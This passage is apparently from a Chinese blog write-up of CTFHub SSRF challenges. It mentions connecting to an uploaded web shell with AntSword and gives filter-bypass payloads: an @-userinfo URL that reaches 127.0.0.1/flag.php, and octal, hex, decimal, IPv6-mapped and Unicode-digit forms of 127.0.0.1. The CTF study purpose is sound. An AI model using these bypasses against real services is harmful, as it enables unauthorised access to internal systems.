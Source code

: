 然后直接 上传递 然后直接通过蚁剑链接即可 不需要 有回显 一般都是 time out



<img src="https://i-blog.csdnimg.cn/blog_migrate/b0700336328a483351eecb8811c5c113.png" alt="" style="max-height:174px; box-sizing:content-box;" />




## URL Bypass

开始学习bypass内容

这里的知识点好像没有特别多 主要是学习如何绕过



<img src="https://i-blog.csdnimg.cn/blog_migrate/c2deab634f5eef6561d3fc797d3bd577.png" alt="" style="max-height:220px; box-sizing:content-box;" />


这里提示 必须要包含这个地址

这里的绕过内容为@

```typescript
意思就是 
 
127.0.0.1@www.baidu.com
 
和
 
www.baidu.com 
 
两个访问的内容是一样的
 
```

所以这道题 需要包含 那么我们直接构造即可

```cobol
?url=http://notfound.ctfhub.com@127.0.0.1/flag.php
```

## 数字IP Bypass



<img src="https://i-blog.csdnimg.cn/blog_migrate/e52ccc61e1bdad90dd8b1fa78d41da8f.png" alt="" style="max-height:147px; box-sizing:content-box;" />


这里提示不能用点分十进制

那我们可不可以使用其他进制

```cobol
127.0.0.1:
 
 
八进制：0177.0.0.1
十六进制：0x7f.0.0.1
十进制：2130706433
 
或者利用其他为 127.0.0.1的内容
 
http://localhost/
http://0/
http://[0:0:0:0:0:ffff:127.0.0.1]/
http://①②⑦.⓪.⓪.①
```
